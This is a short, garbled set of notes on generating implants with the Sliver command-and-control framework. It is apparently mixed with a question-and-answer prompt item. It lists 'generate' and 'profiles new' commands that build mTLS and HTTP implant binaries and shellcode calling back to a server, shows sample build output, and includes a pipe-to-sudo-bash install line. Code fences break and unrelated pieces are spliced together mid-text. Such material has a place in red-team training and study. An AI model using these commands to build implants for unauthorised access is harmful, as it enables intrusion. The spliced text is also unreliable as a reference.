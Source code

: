 Context:# Payload Generation on Sliver for Windows

Here are some  commands for generating payloads on Sliver, specifically targeting Windows.

## Generating a Windows Shellcode Payload
Create a new profile called `win-shellcode` that uses mutual TLS and connects to the server IP **192.168.122.1** in **shellcode** format.
```bash
sliver > profiles new --mtls 192.168.122.1 --format shellcode win-shellcode my_profile
sliver > generate --profile my_profile
For a Linux server, you can also use the one liner installation `curl https://sliver.sh/install|sudo bash`
```
sliver > generate --mtls example.com --save /Users/moloch/Desktop --os mac

[*] Generating new darwin/amd64 Sliver binary
[*] Build completed in 00:00:09
[*] Sliver binary saved to: /Users/moloch/Desktop/PROPER_ANTHONY
## Generate the Implant
#### Basic Example

```
sliver > generate --http example.com --os mac

[*] Generating new darwin/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/WORKING_HACIENDA

 Question: Provide a complete example of using the generate command in Sliver to create a payload. The example should include common parameters and the expected output. Respond with just a few command line. 

 Your response: 
```

#### Advanced Example

```
sliver > generate --mtls example.com --save /Users/moloch/Desktop --os windows

[*] Generating new amd64 implant binary
[*] Build completed in 00:00:07
[*] Implant saved to /Users/moloch/Desktop/WORKING_HACIENDA
```